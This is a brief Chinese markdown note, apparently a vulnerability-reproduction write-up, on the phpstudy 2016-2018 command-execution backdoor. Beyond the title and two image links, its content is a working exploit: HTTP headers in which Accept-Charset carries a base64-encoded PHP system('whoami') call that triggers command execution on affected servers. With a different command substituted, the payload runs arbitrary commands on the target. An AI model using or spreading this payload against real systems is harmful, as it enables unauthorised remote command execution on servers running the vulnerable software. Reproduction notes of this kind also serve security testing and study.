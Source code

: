 # phpstudy2016-2018命令执行漏洞复现



![image-20230921093748313](./imgs/image-20230921093748313.png)

![image-20230921093737485](./imgs/image-20230921093737485.png)

```python
Accept-Encoding: gzip,deflate
Accept-Charset:c3lzdGVtKCJ3aG9hbWkiKTs=
```

